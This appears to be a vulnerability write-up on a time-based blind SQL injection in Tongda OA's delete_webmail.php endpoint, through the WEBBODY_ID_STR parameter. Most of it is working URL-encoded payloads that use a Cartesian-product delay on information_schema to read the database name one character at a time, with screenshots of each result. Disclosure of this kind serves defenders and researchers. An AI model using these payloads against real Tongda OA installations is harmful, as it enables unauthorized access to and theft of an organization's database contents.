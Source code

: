 SQL injection for versions below v11.10 and v2017
1.
Route:/general/email/inbox/delete_webmail.php
There are injected parameters: $WEBBODY_ID_STR
The code here is very concise. When $WEBBODY_ID_STR is not empty, the parameters are directly spliced into the SQL statement. Since the brackets are closed here, there is a bypass.

<a href="https://smms.app/image/L62zSDhcredTboR" target="_blank"><img src="https://s2.loli.net/2024/01/17/L62zSDhcredTboR.png" ></a>

Tongda OA global filtering is as follows

<a href="https://smms.app/image/fHJThyIp4tjnOmx" target="_blank"><img src="https://s2.loli.net/2024/01/17/fHJThyIp4tjnOmx.png" ></a>

2.Payload
We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.

```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

<a href="https://smms.app/image/eNVE4MFBpuoJhD3" target="_blank"><img src="https://s2.loli.net/2024/01/17/eNVE4MFBpuoJhD3.png" ></a>

Intercept the second digit of the database through blind injection, and determine the second digit as the letter d through the delay time

```
1)%20and%20(substr(DATABASE(),2,1))=char(100)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

<a href="https://smms.app/image/Cvks1LUnZqMBohj" target="_blank"><img src="https://s2.loli.net/2024/01/17/Cvks1LUnZqMBohj.png" ></a>

The third digit is the character _

```
1)%20and%20(substr(DATABASE(),3,1))=char(95)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

<a href="https://smms.app/image/Cnb4xhG71IVzFAP" target="_blank"><img src="https://s2.loli.net/2024/01/17/Cnb4xhG71IVzFAP.png" ></a>

The fourth digit is the character o

```
1)%20and%20(substr(DATABASE(),4,1))=char(111)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

<a href="https://smms.app/image/xbW68aecsO5hJDS" target="_blank"><img src="https://s2.loli.net/2024/01/17/xbW68aecsO5hJDS.png" ></a>

The fifth digit is the character a

```
1)%20and%20(substr(DATABASE(),5,1))=char(97)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

<a href="https://smms.app/image/uj1yJzYrpNda3AO" target="_blank"><img src="https://s2.loli.net/2024/01/17/uj1yJzYrpNda3AO.png" ></a>

Then through blind injection, you can determine that the database name is: td_oa